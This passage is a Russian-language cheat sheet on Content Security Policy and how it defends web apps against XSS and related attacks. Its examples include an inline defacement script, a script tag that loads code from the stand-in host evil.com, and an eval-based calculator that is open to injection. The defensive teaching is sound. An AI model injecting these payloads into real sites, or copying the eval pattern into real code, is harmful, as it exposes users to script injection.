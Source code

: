 # Шпаргалка по Content Security Policy

## Введение

Эта статья представляет способ интеграции концепции **глубокой защиты** на стороне клиента веб-приложений. Путем внедрения заголовков Content-Security-Policy (CSP) с сервера браузер становится осведомленным и способен защищать пользователя от динамических вызовов, загружающих содержимое на страницу, которая в данный момент посещается.

## Контекст

Рост числа уязвимостей XSS (межсайтового скриптинга), кликджекинга и утечек данных между сайтами требует более подхода безопасности с концепцией **глубокой защиты**.

### Защита от XSS

CSP защищает от XSS-атак следующими способами:

#### 1. Ограничение встроенных скриптов

Запрещая странице выполнять встроенные скрипты, такие атаки, как инъекции

```html
<script>document.body.innerHTML='defaced'</script>
```

 не сработают.

#### 2. Ограничение удаленных скриптов

Запрещая странице загружать скрипты с произвольных серверов, такие атаки, как внедрение

```html
<script src="https://evil.com/hacked.js"></script>
```

не сработают.

#### 3. Ограничение небезопасного JavaScript

Запрещая странице выполнять функции преобразования текста в JavaScript, такие как `eval`, сайт будет защищен от подобных уязвимостей:

```js
// Простой калькулятор
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`Сумма: ${sum}`);
```

#### 4. Ограничение отправки форм

Ограничивая, куда могут отправлять данные HTML-формы на вашем сайте, внедрение фишинговых форм также не сработает.
